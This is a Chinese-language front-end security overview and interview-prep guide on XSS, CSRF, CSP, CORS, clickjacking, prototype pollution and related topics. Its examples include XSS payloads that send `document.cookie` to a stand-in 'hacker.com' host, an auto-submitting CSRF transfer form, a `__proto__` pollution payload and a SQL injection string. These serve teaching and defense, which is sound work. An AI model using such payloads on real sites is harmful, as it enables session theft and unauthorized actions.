








# 前端安全全景与高频面试题

> 本文是前端安全的**系统总览 + 面试速答**，由早期 XSS / CSRF 笔记整合升级而来，并补齐现代前端常考的 **CSP、点击劫持、CORS 配置错误、HTTPS/SRI、客户端存储、供应链、postMessage、原型链污染**，统一用「结论 → 图 → 示例 → 防御 → 问答」结构。

## 一句话总览

前端安全的本质是：**永远不要信任来自用户的任何输入、来自网络的任何响应、甚至浏览器自身**，对三者做「输入校验 + 输出编码 + 最小权限」三道防线。

## 攻击全景图



---

## 一、XSS 跨站脚本攻击

**结论：XSS = 用户输入未经过滤就进入了页面的「执行上下文」（HTML / 属性 / JS / URL），导致恶意脚本在受害者浏览器中运行。**

### 攻击链



### 三种类型对照

| 类型 | 是否经服务端 | 危害 | 典型场景 |
|---|---|---|---|
| **反射型** | 经服务端原样返回 | 单次，需诱导点击 | 搜索结果回显搜索词 |
| **存储型** | 存入数据库 | 持久，影响所有访问者 | 评论、个人简介 |
| **DOM 型** | 不经服务端 | 取决于前端逻辑 | `location.hash` 直接写入 DOM |

### 攻击场景

> 三种类型的差异，本质是「**payload 投放在哪、如何触达受害者**」。

**① 反射型 · 搜索回显 + 钓鱼链接**

场景：搜索页把关键词原样回显到 HTML。攻击者把脚本塞进 URL，伪装成短链接/钓鱼邮件诱导点击。

```
https://shop.example/search?q=<script>fetch('https://hacker.com/c?'+document.cookie)</script>
```

服务端把 `q` 拼进响应 → 受害者一点开就执行 → Cookie 被发到攻击者服务器。**一次性、需诱导点击、不持久**。

**② 存储型 · 评论区注入（危害最大）**

场景：评论/个人简介回显内容却未清洗。攻击者提交 payload 存进数据库，之后**每一个**打开页面的用户都中招。

```html
<!-- 攻击者提交的评论内容 -->
好文章！
```

真实教训：2011 新浪微博、2014 Tumblr 爆发过 **XSS 蠕虫**——脚本自动转发「含自身的评论」，指数级扩散，几小时感染百万账号。**持久、广覆盖，最危险**。

**③ DOM 型 · SPA 的 hash 注入（最隐蔽）**

场景：前端直接把 `location.hash` 写进 DOM，全程不经服务端——服务端 WAF 完全拦不住（恶意内容根本没进响应体）。

```ts
// 脆弱代码：hash 直接写入 DOM
document.getElementById('title')!.innerHTML = location.hash.slice(1);

// 攻击链接（# 后内容纯前端读取，服务端无感知）
// https://app.example/#
```

SPA 时代最常见、也最容易被忽略的一类：服务端看不到 payload，常规后端过滤全部失效。

### 反射型 vs DOM 型：别再搞混

两者都靠「点恶意链接」触发，所以容易混。**关键只看一点：payload 是被谁写进页面的？**



| 维度 | 反射型 | DOM 型 |
|---|---|---|
| 谁把 payload 写进页面 | **服务端**模板渲染 | **前端 JavaScript** |
| 服务端响应体里有没有 payload | ✅ 有 | ❌ 没有（HTML 是固定的） |
| 常用 URL 载体 | query 参数 `?q=` | fragment `#`（不发服务端） |
| 服务端 WAF / 输出编码能防吗 | ✅ 能 | ❌ 不能（服务端压根看不到） |
| 防御重点 | 服务端输出编码 + CSP | 前端用 `textContent` / DOMPurify + CSP |

> **一句话判别**：把服务端的响应抓下来看——HTML 里就含恶意脚本的是**反射型**；HTML 干净、是前端 JS 后来塞进去的，就是 **DOM 型**。

### 拿到 XSS 之后能干什么

> 别以为 XSS 只是 `alert(1)` 弹个框——**脚本一旦执行，攻击者在该源下拥有与用户同等的 JS 能力**。

| 危害 | 具体行为 |
|---|---|
| 窃取凭证 | 读 `document.cookie` / `localStorage` 里的 token（非 HttpOnly 时） |
| 会话劫持 | 带着偷到的 Cookie 直接冒充用户登录 |
| 键盘记录 | 监听 `keydown`，把按键内容回传 |
| 钓鱼篡改 | 把登录框 `action` 改指向攻击者服务器，截获明文密码 |
| 强制操作 | 以用户身份调业务接口（发帖、转账、改密码） |
| 挖矿 / 广告 | 注入矿机脚本或恶意广告，耗用户资源 |
| XSS 蠕虫 | 脚本自动传播自身（社交平台，见存储型案例） |

一句话：**用户能在该页面做的一切，XSS 都能做**。

### 最小示例

```ts
// ❌ 危险 Sink
document.getElementById('content')!.innerHTML = new URLSearchParams(location.search).get('q');

// ✅ 文本节点天然安全（浏览器不解析为标签）
el.textContent = userInput;

// ✅ 必须插 HTML 时，先清洗
import DOMPurify from 'dompurify';
el.innerHTML = DOMPurify.sanitize(userHtml, { USE_PROFILES: { html: true } });
```

### 框架下的「危险点」

| 框架 | 默认是否转义 | 危险 API |
|---|---|---|
| React | ✅ `{value}` 自动转义 | `dangerouslySetInnerHTML={{ __html }}` |
| Vue | ✅ `{{ value }}` 自动转义 | `v-html="value"` |
| Angular | ✅ `{{ value }}` 自动转义 | `[innerHTML]="value"`（默认仍清洗） + `bypassSecurityTrust*` |

> 结论：现代框架默认安全，**99% 的框架内 XSS 来源于显式绕过转义**（`dangerouslySetInnerHTML` / `v-html` / `bypassSecurityTrustHtml`）。

### 防御清单

1. **输出编码按上下文**：HTML 文本、属性、JS、URL、CSS 各有不同编码规则（不能一刀切）。
2. **白名单清洗**：富文本用 DOMPurify，而非黑名单正则过滤。
3. **CSP**：限制脚本来源（见第四节）。
4. **HttpOnly Cookie**：让 JS 读不到会话 Cookie，**防窃取、不防注入**。
5. **Trusted Types**：实验性，强制 Sink 只接受清洗后的值。

### 面试问答

**Q：HttpOnly 能防 XSS 吗？**
不能。HttpOnly 只让 JS 读不到 Cookie，**缩小了 XSS 的危害**（偷不到会话），但脚本照样能执行（改页面、发请求、钓鱼）。它是纵深防御的一环，不是 XSS 的解药。

**Q：CSP 能完全替代输出编码吗？**
不能。CSP 是「限制脚本从哪加载/能否执行」，是兜底；输出编码是「让恶意内容变成普通字符串」，是根治。两者互补。

**Q：`textContent` 和 `innerText` 哪个防 XSS？**
都防（都不解析 HTML），但 `textContent` 性能更好、返回所有文本；`innerText` 受 CSS `display:none` 影响且触发重排。

---

## 二、CSRF 跨站请求伪造

**结论：CSRF = 借助浏览器「发请求自动带 Cookie」的特性，冒充已登录用户身份发起非本意操作。它利用的是「网站对浏览器的信任」。**

### 攻击时序



### 攻击 payload 示例

```html
<!-- GET 型：一个 img 就能触发，浏览器加载时自动带上 Cookie 发请求 -->


<!-- POST 型：隐藏表单 + 自动提交，跨站照样能发 -->
<form id="f" action="https://bank.example/transfer" method="POST">
  <input type="hidden" name="to" value="hacker" />
  <input type="hidden" name="amount" value="10000" />
</form>
<script>document.getElementById('f').submit()</script>
```

> 关键写操作若用 GET，一个 `` 即完成攻击；POST 也挡不住跨站表单自动提交。所以 CSRF 防御必须靠 SameSite / Token，而非「我以为用了 POST 就安全」。

### 攻击前提（缺一不可）

1. 基于 Cookie 的会话认证；
2. 关键操作没有「攻击者猜不到」的参数；
3. **写操作用了 GET**（最易被 `` 触发）。

### 防御对照

| 方案 | 原理 | 优缺点 |
|---|---|---|
| **SameSite Cookie** | 限制跨站请求带 Cookie | Chrome 默认 `Lax`，最省事；`Strict` 影响跳转体验 |
| **CSRF Token** | 请求带攻击者猜不到的随机值 | 主流方案，需前后端配合 |
| **校验 Origin/Referer** | 检查请求来源域名 | 简单，但 Referer 可被用户关闭 |
| **二次验证** | 短信/验证码 | 仅用于极高危操作 |

### SameSite 三档

| 取值 | 跨站是否带 Cookie | 适用 |
|---|---|---|
| `Strict` | 完全不带 | 最安全，影响外链跳转登录态 |
| `Lax`（默认） | 顶级导航的 GET 带 | 安全与体验平衡 |
| `None` | 都带（须配合 `Secure`） | 需要第三方 Cookie 的场景 |

### Double Submit Cookie 示例

```ts
// 登录时：服务端把 token 同时写进 Cookie 和返回给前端
res.cookie('csrf', token, { sameSite: 'lax' });
return { csrfToken: token };

// 前端：从 Cookie 读 token，放进请求头（跨站脚本读不到本站 Cookie）
const token = document.cookie.match(/csrf=([^;]+)/)?.[1];
fetch('/transfer', {
  method: 'POST',
  headers: { 'X-CSRF-Token': token! },  // 攻击者构造的跨站请求拿不到这个值
  credentials: 'include',
});
```

### 面试问答

**Q：XSS 和 CSRF 的本质区别？**
XSS 利用「网站对用户的信任」，在用户浏览器执行恶意脚本；CSRF 利用「网站对浏览器的信任」，冒充用户发请求。一句话：**XSS 是「你执行了我的脚本」，CSRF 是「我借你的身份发请求」**。

**Q：有了 SameSite 是不是就不用 CSRF Token 了？**
大幅缓解但不绝对。顶级 GET 导航仍带 Cookie（`Lax`），且旧浏览器/某些嵌入场景不生效。**核心写操作建议 Token + SameSite 双保险**。

**Q：为什么 CSRF Token 放请求头比放表单参数更安全？**
放 URL/表单可能通过 Referer 泄露；请求头（如 `X-CSRF-Token`）只在本站 JS 内构造，跨站页面无法读取本站 Cookie 来源的 token。

---

## 三、CSP 内容安全策略

**结论：CSP 是浏览器执行的一张「资源白名单」——页面只能从声明的来源加载脚本/样式/图片/接口，其余一律拦截。它是 XSS 的纵深防御：就算注入漏过了输出编码，脚本也跑不起来、数据也发不出去。**

### 为什么需要 CSP：给 XSS 兜底

输出编码能防 XSS，但**总有漏网**（一个忘转义的 `v-html`、一个被投毒的第三方库）。CSP 的价值是：**哪怕脚本已被注入，也让它无法执行、无法把数据发出去**，把危害锁死在浏览器里。



### 浏览器如何执行 CSP

服务端在响应头里带 CSP；浏览器**在每个资源加载、每次脚本执行前**查一次白名单，违规就拦截 + 控制台报错（并可上报）。



### 逐行读懂一个 CSP

```
Content-Security-Policy:
  default-src 'self';              # ① 兜底：所有资源默认只许同源
  script-src 'self'                #    脚本：同源 + 指定 CDN + 带 nonce 的内联
    https://cdn.example.com
    'nonce-abc123';
  style-src 'self';                #    样式：仅同源
  img-src 'self' data:;            #    图片：同源 + data:（base64 图）
  connect-src 'self'               #    接口：仅同源 + 指定 API 域（防数据外泄）
    https://api.example.com;
  object-src 'none';               # ② 禁 <object>/<embed>/Flash
  report-uri /csp-report;          # ③ 违规时上报到此
```

读法：指令以 `;` 分隔，多个值用空格隔开；`'self'` 是关键字（带引号）表示同源，裸字符串是域名，`'none'` 表示全禁。

### 为什么需要 nonce / hash：内联脚本的麻烦

CSP 默认**禁掉所有内联脚本**（`<script>alert(1)</script>` 直接拦）、禁 `eval`、禁内联事件（`onclick=`）。很安全，但很多老站点/模板里到处是内联脚本，一刀切会全崩。放行内联有三种姿势：

| 方式 | 写法 | 评价 |
|---|---|---|
| `'unsafe-inline'` | 放行所有内联 | ❌ 等于放弃 CSP 对内联的防护，别用 |
| **nonce** | 头里 `'nonce-随机串'` + `<script nonce="随机串">` | ✅ 每次请求换串，攻击者猜不到，注入的内联没 nonce 就被拦 |
| **hash** | 头里 `'sha256-脚本指纹'` | ✅ 绑定脚本内容，内容变就得换 |

```html
<!-- 本次响应头：script-src 'self' 'nonce-7f8e...' -->
<script nonce="7f8e...">console.log('合法内联脚本')</script>   <!-- ✅ nonce 匹配，执行 -->

<!-- 攻击者注入的内联脚本没有 nonce -->
<script>fetch('https://hacker.com?'+document.cookie)</script>  <!-- ❌ 被 CSP 拦下 -->
```

### 关键策略字段

| 字段 | 作用 |
|---|---|
| `default-src` | 兜底默认值，未被具体指令覆盖的资源都走它 |
| `script-src` | JS 来源（防 XSS 核心） |
| `style-src` | 样式来源 |
| `img-src` | 图片来源（注意收紧，别用 `*`，否则成为外泄旁路） |
| `connect-src` | fetch/XHR/WebSocket 可连地址（防数据外泄） |
| `frame-ancestors` | 谁能嵌套本页（替代 `X-Frame-Options`，防点击劫持） |
| `object-src` | `<object>`/`<embed>`/Flash，建议 `'none'` |
| `report-uri` | 违规上报地址 |

### 面试问答

**Q：上线 CSP 的稳妥步骤？**
先用 `Content-Security-Policy-Report-Only` 头**只上报不拦截**，收集控制台和 report 的违规；把白名单调到无误报后，再切到强制的 `Content-Security-Policy`。一上来就强制会让正常功能挂掉。

**Q：CSP 如何防数据外泄？**
`connect-src` 限制 fetch/XHR/WebSocket 的目标域名。XSS 即便执行了，也发不出去——除非走 `img-src` 旁路（`new Image().src = hackerUrl`），所以 `img-src` 也要收紧，不能配 `*`。

**Q：有了 CSP 还要输出编码吗？**
要。CSP 是**兜底**（让注入的脚本跑不起来），输出编码是**根治**（让恶意内容变普通字符串）。CSP 配置复杂易出错，不能替代编码；两者叠加才稳。

---

## 四、点击劫持 Clickjacking

**结论：用一个透明的 `<iframe>` 覆盖在诱导按钮上，让用户以为点的是「领奖」，实际点的是「转账/授权」。**

### 攻击示意



### 防御

```
# 旧方案（仅支持 DENY / SAMEORIGIN）
X-Frame-Options: SAMEORIGIN

# 新方案（推荐，支持多域名白名单）
Content-Security-Policy: frame-ancestors 'self' https://trusted.example.com;
```

> JS frame-busting（检测 `top !== self` 跳转）**不可靠**，现代浏览器有 sandbox 限制可绕过，应优先用响应头。

### 面试问答

**Q：`X-Frame-Options` 和 CSP `frame-ancestors` 区别？**
前者老、只支持单值（DENY/SAMEORIGIN）；后者新、支持白名单多域名，是替代品。两者并存时部分浏览器以 `frame-ancestors` 为准。

---

## 五、CORS 配置错误

**结论：CORS 不是安全机制，而是「放宽」同源策略的许可。配错（反射任意 Origin + 允许凭证）= 把接口对所有网站敞开。**

### 危险配置（❌）

```ts
// ❌ 反射任意 Origin 且允许携带 Cookie = 任意网站可带凭证调用本接口
app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', req.headers.origin ?? '*');
  res.setHeader('Access-Control-Allow-Credentials', 'true');
  next();
});
```

### 安全配置（✅）

```ts
const ALLOWED = new Set(['https://app.example.com', 'https://admin.example.com']);

app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (origin && ALLOWED.has(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin);          // 白名单内才回显
    res.setHeader('Vary', 'Origin');                                // 防缓存串 origin
    res.setHeader('Access-Control-Allow-Credentials', 'true');
    res.setHeader('Access-Control-Allow-Methods', 'GET, POST');
  }
  next();
});
```

### 两条铁律

1. **`Access-Control-Allow-Origin: *` 与 `Access-Control-Allow-Credentials: true` 不能同时生效**（浏览器会拒绝带凭证）。
2. **永远不要反射任意 Origin**，必须走白名单校验。

### 面试问答

**Q：CORS 和 CSRF 什么关系？**
CSRF 是「不读响应、只发请求」的攻击，普通表单/img 不受同源策略限制，**CORS 防不住 CSRF**。CORS 管的是「跨域能不能读到响应」。所以 CSRF 要靠 Token/SameSite，不是靠 CORS。

**Q：预检请求（Preflight）什么时候发？**
非简单请求（如 `Content-Type: application/json`、自定义头、非简单方法 PUT/DELETE）会先发 `OPTIONS` 预检。简单请求（GET/POST + 少数头/类型）直接发。

---

## 六、HTTPS / 中间人 / SRI / HSTS

**结论：HTTPS 用 TLS 加密传输防窃听篡改；但若 CDN 被劫持、或证书被绕过，仍需 SRI + HSTS 兜底。**

### TLS 握手简图



### SRI 子资源完整性（防 CDN 劫持）

```html
<script src="https://cdn.example.com/lib.js"
        integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
        crossorigin="anonymous"></script>
```
CDN 内容被篡改时，哈希不匹配，浏览器拒绝执行。

### HSTS（强制 HTTPS，防降级）

```
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

### 面试问答

**Q：为什么 HTTPS 之后还要 SRI？**
HTTPS 防的是「传输链路」篡改；但如果 CDN 源站本身被攻破、或管理员误发布错误文件，HTTPS 拦不住。SRI 校验「内容指纹」，连 CDN 内容都校验。

**Q：HSTS 的「preload」是什么？**
浏览器厂商维护一份内置的强制 HTTPS 域名列表，**首次访问也走 HTTPS**（否则首次请求仍可能被降级劫持）。需主动提交到 [hstspreload.org](https://hstspreload.org)。

---

## 七、客户端存储安全

**结论：`localStorage` / `sessionStorage` 能被任意同源 JS 读取，一旦有 XSS 就全泄露。敏感凭证优先放 HttpOnly Cookie。**

### 存储方式对照

| 方式 | 容量 | 生命周期 | 是否可被 JS 读 | 适合存 |
|---|---|---|---|---|
| Cookie | ~4KB | 可设过期 | 默认可，`HttpOnly` 后不可 | 会话凭证 |
| localStorage | ~5MB | 永久 | ✅ 可读 | 非敏感配置/缓存 |
| sessionStorage | ~5MB | 关标签页 | ✅ 可读 | 临时表单 |
| IndexedDB | 大 | 永久 | ✅ 可读 | 离线数据 |

### Token 存哪？经典权衡

| 存储位置 | 防 XSS 窃取 | 防 CSRF | 说明 |
|---|---|---|---|
| **localStorage** | ❌ JS 可读 | ✅ 不自动带 | 最常见，但 XSS 即失守 |
| **HttpOnly Cookie** | ✅ JS 读不到 | ❌ 自动带，需配 CSRF 防护 | 更安全，但要做 CSRF 防护 + 处理跨域 |

> 现代实践（如双 Token 无感刷新，见 `../双Token无感登录方案.md`）：access token 短期存内存，refresh token 放 HttpOnly Cookie，兼顾两者。

### Cookie 安全属性清单

```
Set-Cookie: session=xxx;
  HttpOnly;          # 防 JS 读取（XSS 窃取）
  Secure;            # 仅 HTTPS 传输
  SameSite=Lax;      # 防 CSRF
  Path=/;
  Max-Age=3600;
```

### 面试问答

**Q：JWT 放 localStorage 还是 Cookie？**
看取舍。放 localStorage 简单但 XSS 可窃取；放 HttpOnly Cookie 防 XSS 但有 CSRF 风险、且跨域需处理 SameSite/credentials。**高安全要求选后者并配 CSRF Token**。

**Q：为什么敏感信息不能存 localStorage？**
任何同源脚本（含被注入的 XSS、被污染的第三方库）都能 `localStorage.getItem` 直接读走，且无 HttpOnly 保护。

---

## 八、依赖与供应链安全

**结论：你 `npm install` 的每个包都是「信任边界」。`left-pad`（删包致全球构建崩溃）、`event-stream`（被植入挖矿/盗币）都是真实事件。**

### 防御清单

```bash
# 1. 锁定版本 + 校验 lockfile 提交
pnpm install --frozen-lockfile

# 2. 审计已知漏洞
pnpm audit --audit-level=high

# 3. 固定精确版本，禁用会自动升级的 ^
```

| 手段 | 作用 |
|---|---|
| `pnpm-lock.yaml` 提交 + `--frozen-lockfile` | 锁定整棵依赖树，防偷偷换包 |
| `pnpm audit` / `npm audit` | 扫描已知 CVE |
| 第三方脚本 SRI | 防 CDN 被劫持改内容 |
| 私有 registry / 代理 | 不直连公网，可控镜像 |
| 关键依赖 review | 警惕新增 maintainers、高频发版 |

### 面试问答

**Q：如何防止第三方 CDN 脚本被篡改？**
用 SRI（`integrity` 属性 + 哈希校验），CDN 内容变了浏览器就拒绝执行。搭配 CSP 限制 `script-src` 来源。

**Q：`^1.2.3` 和 `~1.2.3` 的安全影响？**
都会在 install 时引入更高版本，**有被「投毒新版本」攻击的风险**。生产应固定精确版本并锁 lockfile。

---

## 九、其他高频攻击

### 1. postMessage 跨窗口通信

**结论：收方必须校验 `event.origin`，发方必须指定 `targetOrigin`，不能用 `'*'`。**

```ts
// ❌ 危险：收到任意来源的消息都处理 / 广播给所有人
window.addEventListener('message', (e) => eval(e.data));
target.postMessage(secret, '*');

// ✅ 安全
window.addEventListener('message', (e) => {
  if (e.origin !== 'https://app.example.com') return;   // 收方校验来源
  handle(e.data);
});
target.postMessage(secret, 'https://trusted.example.com'); // 发方指定目标
```

### 2. 原型链污染 Prototype Pollution

**结论：用户输入含 `__proto__` / `constructor.prototype` 时，若被递归合并进对象，会污染所有对象的原型。**

```ts
// 攻击 payload
JSON.parse('{"__proto__":{"isAdmin":true}}');

// ❌ 危险的递归合并（会把 __proto__ 当属性写入原型）
function merge(target, src) {
  for (const k in src) {
    target[k] = src[k] instanceof Object ? merge(target[k], src[k]) : src[k];
  }
  return target;
}

// ✅ 防御
// 1. 用 Map 或 Object.create(null)（无原型）
// 2. 用 Object.keys 而非 for...in（不遍历原型链上的自有属性方向受限）
// 3. 用成熟的库（lodash.merge 已修复）
```

### 3. 开放重定向 Open Redirect

**结论：跳转地址来自用户输入（`?redirect=`）且未校验，可被用于钓鱼。**

```ts
// ❌ 直接跳转用户给的 URL
location.href = params.get('redirect')!;

// ✅ 白名单校验 + 仅允许相对路径
function safeRedirect(url: string) {
  const u = new URL(url, location.origin);
  if (u.origin !== location.origin) throw new Error('非法跳转');
  location.href = u.pathname + u.search;
}
```

### 4. SQL 注入（前端也常被问）

**结论：拼接 SQL 字符串导致用户输入被当 SQL 执行。前端不能根治（在后端），但前端应做参数化提醒。**

```ts
// ❌ 字符串拼接
db.query(`SELECT * FROM users WHERE name='${name}'`);
// 输入 name = "admin' OR '1'='1" 即可绕过登录

// ✅ 参数化查询（后端）
db.query('SELECT * FROM users WHERE name = ?', [name]);
```

---

## 十、面试速答总表

| 问题 | 一句话答案 |
|---|---|
| XSS 三种类型？ | 反射型（URL 回显）、存储型（存 DB）、DOM 型（纯前端 sink） |
| XSS 怎么防？ | 输出按上下文编码 + 白名单清洗（DOMPurify）+ CSP + 框架默认转义 |
| HttpOnly 防 XSS 吗？ | 不防注入，只防 Cookie 被读取，缩小危害 |
| XSS vs CSRF？ | XSS 借「网站信任用户」，执行脚本；CSRF 借「网站信任浏览器」，冒充发请求 |
| CSRF 怎么防？ | SameSite + CSRF Token + Origin/Referer 校验 + 不用 GET 写 |
| SameSite 三档？ | Strict（不带）/ Lax（默认，顶级 GET 带）/ None（带，需 Secure） |
